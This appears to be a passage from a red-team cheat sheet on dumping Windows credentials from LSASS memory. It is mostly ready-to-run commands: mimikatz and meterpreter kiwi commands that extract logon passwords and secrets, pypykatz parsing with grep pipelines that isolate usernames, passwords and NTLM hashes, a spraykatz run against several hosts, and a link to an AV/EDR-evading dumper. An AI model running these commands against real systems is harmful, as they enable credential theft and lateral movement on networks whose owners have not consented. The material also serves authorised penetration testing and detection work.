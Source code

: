 ```
PS > .\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_wdigest
meterpreter > lsa_dump_secrets
meterpreter > creds_all
meterpreter > kiwi_cmd '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "exit"'
```



### pypykatz

- [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

Parse MiniDump and grep for creds:

```
$ pypykatz lsa minidump lsass.dmp > out.txt

# Dumped with Mimikatz
$ grep -a '* Username : ' out.txt -A2 | grep -a -e Username -e Password -e NTLM | grep -a -v null | xclip -i -sel c

# Dumped with pypykatz
$ grep -a -P '\tusername ' out.txt -A2 | grep -a -e username -e password | grep -a -v None | xclip -i -sel c
$ grep -a -P 'Username: ' out.txt -A4 | grep -a -e Username -e Domain -e NT | grep -a -v None | xclip -i -sel c
```



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)
